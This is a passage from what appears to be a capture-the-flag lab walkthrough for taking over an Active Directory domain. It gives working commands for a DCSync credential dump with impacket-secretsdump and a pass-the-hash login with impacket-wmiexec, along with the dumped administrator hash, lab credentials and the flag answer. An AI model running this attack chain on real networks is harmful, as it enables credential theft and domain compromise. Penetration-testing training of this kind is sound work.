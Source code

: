 **🎯 Answer**: `DCSync`

---

## 👑 **Question 8: Domain Takeover**

### **🎯 Task**: "Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01"

### **📋 Solution Steps:**

#### **Step 1: DCSync Attack**
```bash
# ⚠️ CRITICAL: Use inline password format to avoid proxychains issues!

# FAILS - Interactive password prompt causes timeout:
proxychains sudo impacket-secretsdump INLANEFREIGHT/tpetty@172.16.6.3 -just-dc-user administrator

# WORKS - Inline credentials:
proxychains impacket-secretsdump INLANEFREIGHT/tpetty:Sup3rS3cur3D0m@inU2eR@172.16.6.3 -just-dc-user administrator

# Output:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0:::
```

#### **Step 2: Pass-the-Hash Attack**
```bash
# Use extracted hash to access DC01:
proxychains impacket-wmiexec administrator@172.16.6.3 -hashes aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0

# Verify domain controller access:
hostname  # Should show: DC01
```

#### **Step 3: Retrieve Final Flag**
```cmd
type c:\users\administrator\desktop\flag.txt
```

**🎯 Answer**: `r3plicat1on_m@st3r!`

---

## 🛠️ **Critical Troubleshooting Notes**

### **⚠️ CrackMapExec + Proxychains Issues**

**Problem**: CrackMapExec incorrectly parses credentials through proxychains:
```bash
# Shows this error:
[-] INLANEFREIGHT.LOCAL\$krb5tgs$23$*svc_sql$... STATUS_INVALID_PARAMETER
```
